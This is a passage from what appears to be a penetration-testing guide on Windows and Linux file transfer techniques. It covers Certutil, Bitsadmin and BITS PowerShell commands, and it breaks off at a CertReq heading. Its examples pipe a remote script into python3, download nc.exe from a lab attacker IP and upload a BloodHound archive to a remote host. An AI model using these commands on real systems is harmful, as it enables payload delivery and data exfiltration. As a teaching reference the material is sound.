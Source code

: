 ```shell-session
wget -qO- https://raw.githubusercontent.com/master/Scripts/helloworld.py | python3
```



## Certutil

Casey Smith found that Certutil can be used to download arbitrary files. It is available in all Windows versions and has been a popular file transfer technique, serving as a defacto `wget` for Windows. However, the Antimalware Scan Interface (AMSI) currently detects this as malicious Certutil usage.

> Download a file with Certutil

Example:

```
certutil.exe -verifyctl -split -f http://<file>
```



## Bitsadmin

The **Background Intelligent Transfer Service (BITS)** can be used to download files from HTTP sites and SMB shares.

> Syntax:

```
bitsadmin /transfer n http://<IP-attack>:<port-attack> <pathDestination>
```

> Example Download with Powershell:

```
Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"
```

> Example Upload: with Powershell

```
Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql
```

For example, to create a new BITS job named "MyJob" to download a file from a remote URL, you can use the following command:

```
bitsadmin /create /download MyJob http://example.com/file.txt C:\destination\file.txt
```

This will create a BITS job named "MyJob" to download the file from "[http://example.com/file.txt](http://example.com/file.txt)" and save it to "C:\destination\file.txt".



## CertReq
